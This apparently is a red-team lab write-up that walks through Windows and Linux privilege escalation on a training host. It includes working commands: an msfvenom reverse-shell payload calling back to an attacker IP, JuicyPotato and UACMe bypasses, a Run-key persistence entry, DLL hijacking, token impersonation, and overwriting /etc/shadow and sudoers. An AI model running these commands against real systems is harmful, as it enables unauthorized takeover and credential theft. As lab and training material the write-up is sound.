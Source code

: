 ```yaml
---

# **Privilege Escalation Techniques - Windows & Linux**

## **1. Privilege Escalation with PowerUp**

With a Meterpreter session on a Windows target, we imported PowerUp.ps1 and ran `Invoke-AllChecks`. PowerUp identified misconfigurations, allowing us to escalate privileges. Two key methods demonstrated:

* **HTA Exploit**: Hosted an HTA payload via `msfvenom` and `web_delivery`, executed it on the victim system, resulting in a Meterpreter session with admin rights.
* **PsExec**: Used Metasploit's `exploit/windows/smb/psexec` with stolen admin credentials to gain a privileged Meterpreter session.

---
```


## **2. Privilege Escalation with PrivescCheck**

We used [PrivescCheck](https://github.com/itm4n/PrivescCheck) to scan the system. The report revealed plaintext credentials stored in the **WinLogon registry key**. After extracting credentials, we used `runas.exe` and `psexec` for privilege escalation.

---

## **3. Unattended Installation File**

Identified `Unattend.xml` via PowerUp. Extracted the base64-encoded password and decoded it:

```bash
echo "QWRtaW5AMTIz" | base64 -d
```

Result: `Admin@123`

Used `runas.exe` to escalate privileges:

```powershell
runas.exe /user:administrator cmd
```

Also reused credentials with `psexec` in Metasploit to gain privileged shell access.

---

## **4. Windows Credential Manager**

Used:

```cmd
cmdkey /list
```

No credentials were listed, but escalation was still possible with:

```powershell
runas.exe /savecred /user:administrator cmd
```

Also demonstrated creating a reverse shell payload via `msfvenom` and using PowerShell Web Delivery to open a Meterpreter session.

---

## **5. PowerShell History**

Inspected:

```
C:\Users\student\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
```

Discovered previously entered PowerShell commands, including potential credentials and scripts that assisted in lateral movement or escalation.

---

## **6. Exploiting Insecure Service Permissions**

PowerUp identified that `FileZilla Server.exe` was writable by the student user. Replaced the binary with a malicious payload using:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali IP> LPORT=4444 -f exe > "FileZilla Server.exe"
```

Downloaded and replaced the service binary. Upon restarting the service, a SYSTEM Meterpreter session was received.

---

## **7. Registry AutoRuns Privilege Escalation**

Found writable registry key at:

```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

Created an AutoRun key pointing to a Meterpreter payload:

```powershell
New-ItemProperty -Path "HKLM:\...\Run" -Name "hacker" -Value "C:\Users\student\Desktop\tool\program.exe"
```

Upon logout and login, the payload executed with elevated privileges.

---

## **8. Access Token Impersonation**

Used `incognito` in Meterpreter:

```powershell
load incognito
list_tokens -u
impersonate_token DOMAIN\Admin
getuid
```

Successfully impersonated a privileged token and operated with elevated access.

---

## **9. Juicy Potato Exploit (SeImpersonatePrivilege)**

Confirmed token privileges:

```powershell
whoami /priv
```

Uploaded `JuicyPotato.exe` and a reverse shell payload. Executed:

```cmd
JuicyPotato.exe -l 4444 -p C:\Users\Public\backdoor.exe -t * -c {4991d34b-80a1-4291-83b6-3328366b9097}
```

Resulted in SYSTEM-level shell.

---

## **10. Bypassing UAC with UACMe**

Uploaded `akagi64.exe` (UACMe), identified method 62 (`fodhelper.exe`) for bypass:

```cmd
akagi64.exe 62 C:\Users\Public\payload.exe
```

Executed payload with auto-elevated privileges, bypassing UAC prompts.

---

## **11. DLL Hijacking**

Using Process Monitor, identified missing DLLs. Created a malicious DLL with:

```bash
x86_64-w64-mingw32-gcc -shared -o example.dll malicious.c
```

Placed DLL in the application's directory. When the app was launched, our DLL was loaded, executing the payload with elevated privileges.

---

# **Linux Privilege Escalation Techniques**

## **1. Locally Stored Credentials**

Searched config files in `/var/www/html`:

```bash
grep -nr "db_user" .
```

Found credentials in `database.inc.php`, then switched to root with:

```bash
su
```

---

## **2. Misconfigured File Permissions**

Checked for world-writable files:

```bash
find / -not -type l -perm -o+w
```

Found `/etc/shadow` writable. Generated password:

```bash
openssl passwd -1 -salt abc password
```

Modified `/etc/shadow` to include this hash for root. Logged in as root via `su`.

---

## **3. Exploiting SUID Binaries**

Identified `vim.tiny` with SUID:

```bash
find / -user root -perm -4000 -exec ls -ldb {} \;
```

Used `vim.tiny` to edit `/etc/sudoers`, granting the student user passwordless sudo access.

---

# Summary

These techniques demonstrate a wide range of **Windows and Linux privilege escalation** methods, including:

* Misconfigurations (e.g., writable services, registry, shadow files)
* Exploitation of features (e.g., SeImpersonate, SUID)
* Token impersonation and UAC bypasses
* Analysis tools: PowerUp, PrivescCheck, Autoruns, ProcMon
* Custom payloads using `msfvenom` and Metasploit

These techniques are essential for internal network pivoting, post-exploitation access, and realistic red team operations.

---
